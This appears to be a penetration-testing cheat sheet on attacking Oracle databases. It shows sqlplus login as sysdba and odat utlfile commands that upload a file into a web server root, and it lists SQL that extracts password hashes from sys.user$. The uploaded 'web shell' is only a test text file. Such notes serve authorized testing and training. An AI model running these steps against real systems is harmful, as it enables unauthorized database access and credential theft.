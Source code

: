 In case of this error message ( sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory), there might be an issue with libraries. Possible solution:

```shell-session
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

The System Database Admin  in an Oracle RDBMS is **sysdba**. If an user has more privileges that they should have we can try to exploit it as sysdba.

```shell-session
sqlplus <user>/<password>@$ip/XE as sysdba
```

## Upload a web shell

If we have sysdba admin rights, we might  upload a webshell to the target. This requires the server to run a webserver, and we need to know the exact location of the root directory for the webserver. However, these are typical default paths for webservers:

| **OS**  | **Path**             |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |

```bash
# 1. Create a non suspicious web shell 
echo "Oracle File Upload Test" > testing.txt

# 2. Upload  the shell to linux (/var/www/html) or windows (C:\\inetpub\\wwwroot):
./odat.py utlfile -s $ip -d XE -U <user> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

## 3. Test if the file upload approach worked with curl, or visit via browser.
curl -X GET http://$ip/testing.txt
```


## Oracle basic commands

```shell-session
# List all available tables in the current database
select table_name from all_tables;

# Show the privileges of the current user
select * from user_role_privs;

# If we have sysdba admin rights, we might:
	## 1. enumerate all databases
select * from user_role_privs;

	## 2. extract Password Hashes
select name, password from sys.user$;

	## 3. upload a web shell to the target. This requires the server to run a web server, and we need to know the exact location of the root directory for the webserver.
	## 1. Creating a non suspicious web shell 
echo "Oracle File Upload Test" > testing.txt
	## 2. Uploading the shell to linux (/var/www/html) or windows (C:\\inetpub\\wwwroot):
./odat.py utlfile -s $ip -d XE -U <user> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
